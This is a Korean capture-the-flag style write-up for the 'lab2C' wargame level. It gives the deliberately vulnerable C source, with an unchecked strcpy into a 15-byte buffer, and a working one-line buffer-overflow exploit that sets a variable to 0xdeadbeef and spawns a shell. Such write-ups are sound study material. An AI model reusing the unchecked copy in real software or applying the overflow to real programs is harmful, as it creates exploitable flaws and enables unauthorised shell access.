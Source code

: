 ## 1. 문제 확인
- ID : lab2C
- Target : /level/lab02/lab2C
- flag : /home/lab2B/.pass
```
	lab2C@warzone:/levels/lab02$ ./lab2C
	usage:
	./lab2C string
	lab2C@warzone:/levels/lab02$ ./lab2C g4nzzi
	Not authenticated.
	set_me was 0
	lab2C@warzone:/levels/lab02$
```

<br/><br/>
## 2. 취약점 분석
### 2.1 Source Code
```c
	#include <stdlib.h>
	#include <stdio.h>
	#include <string.h>

	/*
 	* compiled with:
 	* gcc -O0 -fno-stack-protector lab2C.c -o lab2C
 	*/

	void shell()
	{
    	printf("You did it.\n");
        system("/bin/sh");
	}

	int main(int argc, char** argv)
	{
        if(argc != 2)
        {
            printf("usage:\n%s string\n", argv[0]);
            return EXIT_FAILURE;
        }

        int set_me = 0;
        char buf[15];
        strcpy(buf, argv[1]);

        if(set_me == 0xdeadbeef)
        {
            shell();
        }
        else
        {
            printf("Not authenticated.\nset_me was %d\n", set_me);
        }

        return EXIT_SUCCESS;
	}
```
### 2.2 Code 분석
- strcpy()함수로 실행 인자(argv[1])값을 buf에 복사할 때 overflow 취약점 존재
```c
	strcpy(buf, argv[1]);
```
- set_me 값이 0xdeadbeef와 같으면 shell() 함수를 호출함
```c
	if(set_me == 0xdeadbeef)
	{
		shell();
    }
```

<br/><br/>
## 3. Exploit
- main()함수의 stack은 buf(15byte) + set_me(4byte) 형태임
```
	[XXXXXXXXXXXXXXX][ZZZZ][SFP][RET]
 	       buf       set_me
  	    (15byte)     (4byte)
```
- 실행 인자(argv[1])값으로 임의값(15byte) + 0xdeadbeef(4byte)을 입력하면 쉘 획득
```
	lab2C@warzone:/levels/lab02$ ./lab2C $(python -c 'print "a"*15 + "\xef\xbe\xad\xde"')
	You did it.
	$
```
